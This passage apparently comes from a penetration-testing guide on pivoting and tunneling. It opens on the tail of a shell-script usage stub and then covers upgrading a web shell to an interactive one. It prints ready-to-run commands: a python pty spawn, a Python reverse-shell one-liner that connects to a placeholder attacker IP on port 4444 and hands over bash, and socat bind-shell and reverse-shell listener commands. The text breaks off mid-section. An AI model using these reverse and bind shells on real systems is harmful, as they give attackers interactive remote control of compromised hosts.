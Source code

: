 
    if [ $# = 0 ] ; then
        echo "  usage:"
        echo "      proxyresolv <hostname> "
        exit
    fi

Beutifying your web shell
-------------------------

This section is not directly related to either pivoting or tunneling but instead describes a way of simplifying your work when developing attack into the internal network. Often, using a web-shell is rather tedious, especially when using programs that expect an interactive command interface. Most likely you will use some workarounds to performs simple tasks, such as passing password to sudo/su or just editing a file. I’m not a big fan of torturing myself, so when there’s an oportunity to escalate the web-shell to an interactive shell, I do so :) I won’t cover stuff like launching semi-interactive shell using bash/perl/python etc. There’s a ton of info on doing so. Check out this reverse shell cheat sheet - <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>.

### Python PTY shell

An upgrade from a regular semi-interactive shell. You can execute the following command in your existing shell:

    python -c 'import pty; pty.spawn("/bin/bash")'

Or initiate reverse connection:

    python -c 'import socket,subprocess,os;\
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
    s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
    os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

### Socat

Netcat on steroids! Seriously tho, go check this [tool’s](http://www.dest-unreach.org/socat/) manual `man socat` and you’d be amazed what you can do with this tool regarding tunneling. Among other things it can spawn a fully interactive shell, even better than the aforementioned python-pty. The downside is that you most probably will have to build/install this tool on the target server as it is not a default utility in most unix-like distributions.

#### Bind shell

Set listener:

`socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane`

Connect to the listener:

`` socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337 ``

#### Reverse shell

Set listener:

`` socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0 ``
